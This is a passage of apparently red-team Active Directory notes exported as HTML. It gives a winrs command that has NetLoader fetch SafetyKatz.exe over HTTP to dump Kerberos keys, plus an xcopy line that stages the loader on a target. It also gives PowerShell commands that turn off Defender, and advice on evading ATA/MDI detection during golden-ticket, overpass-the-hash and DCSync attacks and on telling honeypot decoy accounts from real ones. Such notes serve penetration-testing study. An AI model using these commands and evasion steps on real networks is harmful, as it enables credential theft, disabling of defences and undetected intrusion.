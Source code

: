 $null | winrs -r:follow-0xd4y C:\PATH\TO\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit</code></pre><ul id="2a4befb6-5867-42b0-b51f-c5849704326c" class="bulleted-list"><li style="list-style-type:disc">make sure to put NetLoader on target disk prior to running the aforementioned commands with <code>echo F | xcopy C:\PATH\TO\Loader.exe \\follow-0xd4y\C$\PATH\TO\SAVE\Loader.exe</code></li></ul><h2 id="49750d82-d328-469e-bf28-ec326fa12113" class="">Other</h2><ul id="4b66229c-5d46-4d75-92d9-f3e6223fd5eb" class="bulleted-list"><li style="list-style-type:disc">with local admin access, run <code>Set-MpPreference -DisableRealtimeMonitoring $true</code> to temporarily disable Defender<ul id="7a4dcca9-911f-4edb-84be-5a280015e045" class="bulleted-list"><li style="list-style-type:circle">note that it is more silent (and preferred) to use <code>Set-MpPreference -DisableIOAVProtection $true</code> as this will specifically only target AV</li></ul><ul id="3e617549-6bd3-4036-8657-7c5250996361" class="bulleted-list"><li style="list-style-type:circle">disabling defender through command line does not work for Windows 10 and 11, Windows Server 2022, Windows Server 2019, and Windows Server  version 1803 or later</li></ul></li></ul><ul id="8e13a00e-0c01-4534-92a1-0815f98df4d4" class="bulleted-list"><li style="list-style-type:disc">avoid communicating with the DC as much as possible</li></ul><h2 id="4d889576-0c15-4327-8695-555889e4f8bf" class="">ATA</h2><ul id="702ebfa1-50b9-4ab9-8b64-819cc81eb293" class="bulleted-list"><li style="list-style-type:disc">avoid running <code>Invoke-UserHunter</code> against DCs to prevent logs (e.g. Reconnaissance using SMB session enumeration) <ul id="ba0fc0b3-e35e-489e-b1b2-40f0dae74760" class="bulleted-list"><li style="list-style-type:circle">skip running against DCs with <code>-ComputerFile computers.txt</code> where DCs are not in the <code>computers.txt</code> file</li></ul><ul id="dde187ce-9082-49b7-8b85-658c6a711176" class="bulleted-list"><li style="list-style-type:circle">triggers <code>4624</code> (Account Logon), <code>4634</code> (Account Logoff), and in case of success also triggers <code>4672</code> (Admin Logon) </li></ul></li></ul><ul id="76e2d5dd-fd2c-4970-9093-be952c933bec" class="bulleted-list"><li style="list-style-type:disc">for golden tickets and overpass-the-hash, ensure to also add <code>/aes256:&lt;AES256_key&gt;</code> and if possible also <code>/aes128:&lt;AES128_key&gt;</code> to avoid ATA’s “Encryption downgrade activity” finding </li></ul><ul id="cb58c73b-ea87-42d0-b0f1-e9f00da50be0" class="bulleted-list"><li style="list-style-type:disc">DCSync attacks trigger ATA’s “Malicious replication of Directory Services” finding (only possible to bypass if run from a domain controller or child domain controller)</li></ul><ul id="ab0332fa-1e2d-401a-a5f2-67cfc0be1e9d" class="bulleted-list"><li style="list-style-type:disc">with DC NTLM hash, use netsync to extract the hashes of machine accounts (more opsec safe and may bypass MDI) </li></ul><ul id="d2ae062a-55f3-469e-9eba-41c0efe5c35d" class="bulleted-list"><li style="list-style-type:disc">avoid interacting with DAs as much as possible</li></ul><ul id="4a998061-b4bc-424b-84a0-cced3f9fb3d5" class="bulleted-list"><li style="list-style-type:disc">NEVER use automated domain takeover tools (extremely noisy)</li></ul><h2 id="3f2b1312-71e0-4480-876b-cf8c05468149" class="">Honeypots</h2><ul id="401d2521-7ca3-4eb2-a374-a3102ca93eb7" class="bulleted-list"><li style="list-style-type:disc">by checking when a user’s password was last set, you can differentiate actual users from honeypot (decoy) users</li></ul><ul id="d94df1b7-b869-4a54-8490-124f423d8401" class="bulleted-list"><li style="list-style-type:disc">compare potential decoy object with known actual object <ul id="dc263a7c-4785-4e7c-b0e1-3885c5c08c21" class="bulleted-list"><li style="list-style-type:circle">compare SID of other users with built-in users (e.g. built-in administrator [RID 500])</li></ul></li></ul><ul id="6376d409-4a28-418e-b182-0d54252a657b" class="bulleted-list"><li style="list-style-type:disc">you can find the legitimate DC with the <code>logonserver</code> environment variable</li></ul><ul id="883b4934-f993-455c-a591-8a69def97464" class="bulleted-list"><li style="list-style-type:disc">objects created by some deception solutions may be filtered out when using WMI for retrieving information</li></ul><ul id="ca21b477-9697-4534-9498-2d28f8e2782c" class="bulleted-list"><li style="list-style-type:disc">run <code>Invoke-HoneypotBuster -OpSec</code> to find potential honeypots<ul id="9edf0b0e-aa6f-46f9-bee4-2352ed2d71af" class="bulleted-list"><li style="list-style-type:circle">it’s better to look for decoys manually, but this is a good tool for finding obvious honeypots (if <code>logoncount</code> ≥ 6, the user does not show up) </li></ul></li></ul><p id="a20798eb-48b5-48e6-84d7-9a59c5a5885e" class=""><strong>Signs Object is a Decoy</strong></p><ol type="1" id="ed776047-b215-47ea-bcbf-0e8d7f74dd6e" class="numbered-list" start="1"><li>User has very enticing name</li></ol><ol type="1" id="7b2a0e27-9516-470b-8397-b35b65abda06" class="numbered-list" start="2"><li>User’s <code>pwdlastset</code> was last set a long time ago</li></ol><ol type="1" id="c42f1c62-f15c-411c-b7cc-9092fc33d304" class="numbered-list" start="3"><li>User’s <code>badpwdcount</code> is 0<ul id="b12d74f9-34bb-48ba-aa66-c37980eaf277" class="bulleted-list"><li style="list-style-type:disc">note <code>badpwdcount</code> is typically low for service accounts</li></ul></li></ol><ol type="1" id="ddb86fb1-06e4-4936-bd04-f064ac847c89" class="numbered-list" start="4"><li>User’s <code>logoncount</code> is 0 or few</li></ol><ol type="1" id="5882317a-361c-41bd-abd0-5f4edae584b5" class="numbered-list" start="5"><li><code>lastLogon</code> or <code>lastlogontimestamp</code> was from a long time